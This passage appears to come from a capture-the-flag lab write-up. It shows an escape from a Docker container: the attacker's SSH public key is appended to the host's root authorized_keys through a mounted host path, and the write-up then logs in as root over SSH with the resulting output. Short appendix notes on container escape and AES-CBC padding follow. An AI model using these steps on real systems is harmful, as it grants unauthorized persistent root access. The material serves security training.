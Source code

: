 `cat /root/.ssh/id_ed25519.pub`

```bash
ssh-ed25519 [REDACTED] - SECRET root@kali
```

```bash
root@b80c81ac62ee:/# echo 'ssh-ed25519 [REDACTED] - SECRET root@kali' >> /host/root/.ssh/authorized_keys
```

`ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@newyorkflankess.thm -p 22`

```bash
root@ip-10-10-223-218:~# whoami
root
root@ip-10-10-223-218:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-223-218:~# pwd
/root
root@ip-10-10-223-218:~# 
```

# Appendix

## Escape for Docker Container

<aside>
💡

Escape in the context of Docker containers refers to container escape, which is a security vulnerability or technique where an attacker breaks out of the container's isolation and gains access to the host system. Docker containers are designed to run isolated processes from the host operating system, but if an attacker can escape from the container to the host, they can potentially execute malicious actions on the host system or other containers. Containers may be run with excessive privileges, such as --privileged mode or with capabilities that allow processes within the container to interact with the host system. If improperly configured, these can be exploited to gain access to the host.

</aside>

## ORACLE AES/CBC/PKCS

<aside>
💡

ORACLE AES/CBC/PKCS refers to a combination of cryptographic algorithms and padding schemes commonly used in encryption processes. AES is a symmetric encryption algorithm, meaning the same key is used for both encryption and decryption. CBC is a mode of operation for block ciphers like AES. PKCS (Public Key Cryptography Standards) is a padding scheme used to ensure that the plaintext data fits exactly into blocks required by the block cipher.

</aside>

## Padding Oracle Attack
